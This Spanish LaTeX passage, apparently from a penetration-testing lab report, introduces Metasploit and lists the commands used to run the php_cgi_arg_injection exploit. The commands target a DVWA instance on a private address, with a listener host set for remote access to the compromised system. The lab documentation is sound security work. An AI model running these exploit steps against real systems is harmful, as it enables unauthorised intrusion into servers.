 \subsubsection{Herramienta Utilizada}
\noindent

Metasploit Framework es una de las plataformas de explotación de vulnerabilidades más utilizadas en el ámbito de las 
pruebas de penetración y la seguridad ofensiva. Desarrollada en Ruby y mantenida por Rapid7, proporciona un entorno modular 
que integra \textit{exploits}, \textit{payloads}, \textit{encoders} y módulos auxiliares, permitiendo ejecutar pruebas de 
explotación de forma estructurada, reproducible y controlada~\cite{MetasploitDocs}. Debido a su amplia cobertura de 
vulnerabilidades y a su capacidad para automatizar distintas fases de un ataque, es una de las herramientas más empleadas 
en auditorías de seguridad y ejercicios de validación de controles defensivos.

Para esta prueba se utilizó el módulo \texttt{php\_cgi\_arg\_injection} de Metasploit Framework con el objetivo de explotar 
una vulnerabilidad presente en la aplicación objetivo y obtener acceso remoto al sistema comprometido. A continuación, se 
presenta la secuencia de comandos empleada durante la ejecución de la prueba:

\begin{lstlisting}[language=bash, caption={Comandos utilizados en Metasploit Framework}]

use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 192.168.1.70
set RPORT 80
set TARGETURI /DVWA
set LHOST 192.168.1.57
run

\end{lstlisting}

Cada parámetro cumple una función específica, tal como se describe en la Tabla~\ref{tab:parametros_metasploit}.

